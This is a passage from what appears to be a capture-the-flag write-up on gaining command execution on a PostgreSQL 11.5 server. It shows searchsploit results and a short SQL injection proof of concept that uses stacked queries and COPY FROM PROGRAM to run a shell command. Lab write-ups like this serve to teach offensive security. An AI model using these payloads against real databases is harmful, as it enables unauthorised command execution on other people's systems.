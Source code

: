 ## Getting Command Execution

Following the idea of a Postgres vulnerability, I used `searchsploit` to try to find a useful exploit.

```none
└─$ searchsploit postgresql
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
PostgreSQL - 'bitsubstr' Buffer Overflow                                          | linux/dos/33571.txt
PostgreSQL 6.3.2/6.5.3 - Cleartext Passwords                                      | immunix/local/19875.txt
PostgreSQL 7.x - Multiple Vulnerabilities                                         | linux/dos/25076.c
PostgreSQL 8.01 - Remote Reboot (Denial of Service)                               | multiple/dos/946.c
PostgreSQL 8.2/8.3/8.4 - UDF for Command Execution                                | linux/local/7855.txt
PostgreSQL 8.3.6 - Conversion Encoding Remote Denial of Service                   | linux/dos/32849.txt
PostgreSQL 8.3.6 - Low Cost Function Information Disclosure                       | multiple/local/32847.txt
PostgreSQL 8.4.1 - JOIN Hashtable Size Integer Overflow Denial of Service         | multiple/dos/33729.txt
PostgreSQL 9.3 - COPY FROM PROGRAM Command Execution (Metasploit)                 | multiple/remote/46813.rb
PostgreSQL 9.4-0.5.3 - Privilege Escalation                                       | linux/local/45184.sh
---------------------------------------------------------------------------------- ---------------------------------
```

My method here was to look for command execution. Things like privesc and DoS are of no use so that thinned the list. From there I tried from newest to oldest. The main reason was that the Postgres version on the box was 11.5 - much newer than all of the versions listed. This was lucky (or maybe smart?!) as the first exploit I looked at was a winner.

```none
searchsploit -x multiple/remote/46813.rb
```

Looking at this Metasploit module gave a link to this very interesting blog post - named [Authenticated Arbitrary Command Execution on PostgreSQL 9.3 > Latest](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5). I try to avoid Metasploit - so I read through the blog post and tried to figure out the exploit. The general PoC is:

```none
'; DROP TABLE IF EXISTS cmd_exec; --
'; CREATE TABLE cmd_exec(cmd_output text); --
'; COPY cmd_exec FROM PROGRAM 'id'; --
```
